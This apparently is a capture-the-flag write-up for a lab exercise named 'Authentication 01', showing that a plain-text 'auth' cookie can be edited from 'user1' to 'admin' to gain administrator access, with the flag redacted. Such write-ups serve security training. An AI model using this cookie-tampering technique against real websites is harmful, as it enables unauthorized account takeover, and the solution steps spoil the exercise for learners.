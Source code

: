 # Write Up

## Challenge name

Authentication 01

## description

In this exercise, you can log in as user1.

Your goal is to get logged in as admin. To do so, you need to carefully look at the response sent back by the server.

You can see that when you log in as user1, you get a cookie named user1.

From the cookie, you can easily modify a value (using a proxy or a browser's extension) to get logged in as admin.

## solution

- go to the url.
- create a new user in register
  - user:password1

- logged as user1 and using a proxy we can see the cookies.

```
{"url":"https://ptl-1d7d5648d681-1ed308b21802.libcurl.me","cookies":[{"domain":"ptl-1d7d5648d681-1ed308b21802.libcurl.me","hostOnly":true,"httpOnly":false,"name":"auth","path":"/","sameSite":"unspecified","secure":false,"session":true,"storeId":"0","value":"user1"}]}
```
- this part in specific: `,"value":"user1"}]}`
where we can see the user we are currently logged as. "user1"
- the login information is in plain text, so changing the value from "user1" to "admin" should log us on as the new value "flag"

<details>
  <summary>flag</summary>

  ```
 {"url":"https://ptl-1d7d5648d681-1ed308b21802.libcurl.me","cookies":[{"domain":"ptl-1d7d5648d681-1ed308b21802.libcurl.me","hostOnly":true,"httpOnly":false,"name":"auth","path":"/","sameSite":"unspecified","secure":false,"session":true,"storeId":"0","value":"xxxx"}]}
  ```
</details>

<details>
  <summary>flag</summary>

  ```
...,"value":"xxxx"}]}
  ```
</details>

- refresh the page.
- now were are admin.
and we can se the flag in the page.

## flag
```
flag{}
```